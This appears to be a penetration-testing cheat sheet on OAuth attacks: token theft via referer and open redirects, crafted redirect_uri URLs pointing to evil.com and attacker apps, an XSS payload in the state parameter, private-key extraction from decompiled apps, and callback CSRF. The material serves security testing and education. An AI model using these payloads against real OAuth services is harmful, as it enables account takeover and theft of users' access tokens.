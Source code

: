 # OAuth

## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)

## Stealing OAuth Token via referer

From [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544) tweet.

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.

## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)

- [Bypassing Google Authentication on Periscope's Administration Panel](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) By Jack Whitton

